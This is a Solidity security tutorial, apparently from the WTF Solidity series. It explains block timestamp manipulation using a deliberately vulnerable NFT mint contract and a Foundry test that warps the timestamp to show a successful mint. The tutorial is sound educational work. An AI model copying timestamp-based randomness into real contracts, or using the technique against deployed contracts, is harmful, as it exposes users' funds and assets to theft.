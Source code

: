 ```yaml
---
title: S14. Block Timestamp Manipulation
tags:
  - solidity
  - security
  - timestamp
---
```


# WTF Solidity S14. Block Timestamp Manipulation

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the block timestamp manipulation attack on smart contracts and reproduce it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked.

## Block Timestamp

Block timestamp is a `uint64` value contained in the Ethereum block header, which represents the UTC timestamp (in seconds) when the block was created. Before the merge, Ethereum adjusts the block difficulty according to the computing power, so the block time is not fixed, and an average of 14.5s per block. Miners can manipulate the block timestamp; after the merge, it is changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp.

In Solidity, developers can get the current block timestamp through the global variable `block.timestamp`, which is of type `uint256`.

## Vulnerable Contract Example

This example is modified from the contract in [WTF Solidity S07. Bad Randomness](https://github.com/AmazingAng/WTF-Solidity/tree/main/32_Faucet). We changed the condition of the `mint()` minting function: it can only be successfully minted when the block timestamp can be divided by 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Constructor: Initialize the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: Only mint when the block timestamp is divisible by 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduce on Foundry

Attackers only need to manipulate the block timestamp and set it to a number that can be divided by 170, and they can successfully mint NFTs. We chose Foundry to reproduce this attack because it provides a cheat code to modify the block timestamp. If you are not familiar with Foundry/cheatcode, you can read the [Foundry tutorial](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md) and [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

1. Create a `TimeManipulation` contract variable `nft`.
2. Create a wallet address `alice`.
3. Use the cheatcode `vm.warp()` to change the block timestamp to 169, which cannot be divided by 170, and the minting fails.
4. Use the cheatcode `vm.warp()` to change the block timestamp to 17000, which can be divided by 170, and the minting succeeds.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

After installing Foundry, start a new project and install the openzeppelin library by entering the following command on the command line:

```shell
forge init TimeMnipulation
cd TimeMnipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copy the code of this lesson to the `src` and `test` directories respectively, and then start the test case with the following command:

```shell
forge test -vv --match-test testMint
```

The test result is as follows:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

We can see that when we modify `block.timestamp` to 17000, the minting is successful.

## Summary

In this lesson, we introduced the block timestamp manipulation attack on smart contracts and reproduced it using Foundry. Before the merge, Ethereum miners can manipulate the block timestamp. If the pseudo-random number of the lottery contract depends on the block timestamp, it may be attacked. After the merge, Ethereum changed to a fixed 12s per block, and the validator cannot manipulate the block timestamp. Therefore, this type of attack will not occur on Ethereum, but it may still be encountered on other public chains.
